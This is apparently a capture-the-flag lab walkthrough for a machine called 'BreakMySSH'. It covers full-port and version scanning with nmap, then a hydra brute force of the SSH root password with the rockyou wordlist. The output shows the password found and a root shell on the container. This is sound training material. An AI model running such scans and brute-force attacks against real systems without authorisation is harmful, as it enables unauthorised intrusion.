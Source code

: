 # BreakMySSH

## Reconnaissance and Enumeration.

Check that the machine is up.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Once we get a ping response, we can start enumerating the machine. The ttl=64 can indicate that it is a **Linux** machine.

We launch nmap to see what ports it finds.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Performs a SYN scan.
- `-p-`: Scans all ports.
- `--open`: Shows only open ports.
- `--min-rate 5000`: Sets the minimum packet sending speed to 5000 per second.
- `-vvv`: Generates very detailed and verbose output.
- `-n`: Avoids reverse DNS resolution.
- `-Pn`: Skips host detection.
- `-oG allPorts`: Saves the results to a file called "allPorts".
- `172.17.0.2`: The IP address of the target host.

```bash
PORT STATE SERVICE REASON
22/tcp open ssh syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Since we have port 22 open, we are going to check the version and run some basic scripts to see what information we get.

```bash
nmap -sCV -p22 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Scan for versions and vulnerabilities.
- `-p22`: Scan for ports 22 (SSH).
- `-vvv`: Very verbose and verbose output.
- `-oN versionPorts`: Save the results to "versionPorts".
- `172.17.0.2`: IP address of the scanned host.

```bash
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack ttl 64 OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey:
| 2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDfOr49bj2kh3ab2WutTu6Jx7NA7OKSxzp42bJU4nqtQlICZbjiBXhOa1ZKOfUfN vXOGEThiSrTNbf1nRGzXtACiZQp+RwQr5ZEYPAOyasC7C29FaIZVURR7FuFea+tfWZjbzDaP8WnA/U3TQHwtUBsNSR3qFs cgJQ1niCyrfH/4rbUk5jiLYN6y8NjctGvsvwPE+cCiFVge76qyfzmZdaf5gJT9DKDt47iBkrngCODYrqqt+Bbl9ZEGh5 SUfDqYfsFMIvlsSjmbx0HtMc2NhTW7jLtyV3Xm6ynFUZmQRPRqXdzuN5TIhYzaQD8ogC1Hk9sYJJNUMMF+lGVf15iouMn
| 256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLJ77V//dhC1BX2KXpMNurk9hJPA3aukuoMLPajtYfaewmlwrsK5Rdss/I/iQ23YrziNvWb3VMJk511YbvvreZo=
| 256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICFLUqv+frul58FgQLXP91bNrTRC9d1X545DZJ0wsw6z
MAC Address: 02:42:AC:11:00:02 (Unknown)
```
Since we have a version of ssh that does not allow user enumeration and we only have port 22 open, we are going to try with hydra and brute force if we can obtain the root password.

## Exploitation.

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
- `-l root`: Specifies the username "root" for the login attempt.
- `-P /usr/share/wordlists/rockyou.txt`: Specifies the location of the password file to use. In this case, the file "rockyou.txt" is used as the password list.
- `ssh://172.17.0.2`: Specifies the protocol to use (`ssh`) and the IP address of the target host (`172.17.0.2`). This sets the destination of the SSH login attempt.

```bash
❯ hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-16 15:29:16
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2 login: root password: star
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-16 15:29:49
```
With hydra we find the password for the root user and we connect via ssh to the machine.

```bash
ssh root@172.17.0.2
```
We try to connect with the obtained password and we have access to the machine as root.
```bash
root@74dc51463f0e:~# whoami
root
root@74dc51463f0e:~#
```
